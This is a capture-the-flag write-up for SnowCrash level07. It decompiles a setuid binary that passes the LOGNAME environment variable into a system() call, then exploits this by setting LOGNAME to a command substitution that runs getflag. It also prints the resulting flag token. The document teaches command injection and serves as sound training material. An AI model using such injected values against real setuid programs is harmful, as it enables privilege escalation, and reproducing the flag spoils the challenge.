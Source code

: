 # Level07

## Walkthrough

As usual, let's check if there are some files in the home directory.

```bash
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$ file level07 
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
```

Again, another script owned by `flag07` with the setuid bit flag. Let's import it with SCP.

```bash
host:~$ scp -P 4242 level07@localhost:level07 level07
```

And let's decompile the executable with dogbolt.

[Link to the decompiled output](https://dogbolt.org/?id=c0805f22-ef97-46b0-83aa-91f95bdac7f7)

By checking the main function, we can figure out that the program:
- calls `getegid()` and `geteuid()` to retrieve the effective group ID and user ID
- sets them with `setresgid()` and `setresuid()` (in our case: `flag03`)
- gets a pointer to the value of the `LOGNAME` environment variable
- uses it in a call to `asprintf()` in order to combine it with the `echo` command
- executes the result in a `system()` call

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *v3; // eax
  char *v5; // [esp+14h] [ebp-Ch] BYREF
  __gid_t v6; // [esp+18h] [ebp-8h]
  __uid_t v7; // [esp+1Ch] [ebp-4h]

  v6 = getegid();
  v7 = geteuid();
  setresgid(v6, v6, v6);
  setresuid(v7, v7, v7);
  v5 = 0;
  v3 = getenv("LOGNAME");
  asprintf(&v5, "/bin/echo %s ", v3);
  return system(v5);
}
```

The logic is quite symple: we have to write a command substitution to the `LOGNAME` environment variable, which is gonna be executed during the `system()` call.  
If we don't do this, the `getflag` command will be run as `level07` instead of `flag07`.

```bash
level07@SnowCrash:~$ LOGNAME='$(getflag)'
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

## Resources

- [Command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)

